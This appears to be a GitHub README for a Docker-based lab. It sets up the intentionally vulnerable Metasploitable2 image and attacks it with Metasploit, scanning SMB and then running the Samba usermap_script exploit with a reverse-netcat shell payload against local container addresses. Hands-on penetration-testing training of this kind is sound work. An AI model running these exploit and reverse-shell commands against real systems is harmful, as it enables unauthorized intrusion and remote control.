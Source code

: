 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
- enable metaspoilt module and keep running
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"`

- get Target IP
    - `docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable`

- Optional
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- Explanation of vulnerable
    - -p 445:445：開放 SMB（檔案共享漏洞）
    - -p 21:21：開放 FTP（容易被暴力破解）
    - -p 22:22：開放 SSH（可能存在弱密碼）
    - -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`  # check docker status
`docker rm -f vulnerable`  # if docker exist, but didn't running then delete it.
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"` # rerun vul docker
`docker start vulnerable`  # rerun

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`
`help  # check metasploit status`

- Optional
`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`

# 4. Scan target system
- Enable metaspoilt moudle
    - `use exploit/multi/samba/usermap_script`

- In metaspoilt command line
    - `msf6 > use auxiliary/scanner/smb/smb_version`
    - `msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2`
    - `msf6 auxiliary(scanner/smb/smb_version) > run`  # check port and vul

## Exploit
msf6 > `use exploit/multi/samba/usermap_script`
msf6 exploit(multi/samba/usermap_script) > `set RHOSTS 172.17.0.2`  # set target
msf6 exploit(multi/samba/usermap_script) > `check`
msf6 exploit(multi/samba/usermap_script) > `set PAYLOAD cmd/unix/reverse_netcat`  # set payload
msf6 exploit(multi/samba/usermap_script) > `set LHOST 172.17.0.3`  # set reverse local host
msf6 exploit(multi/samba/usermap_script) > `exploit`  # attack

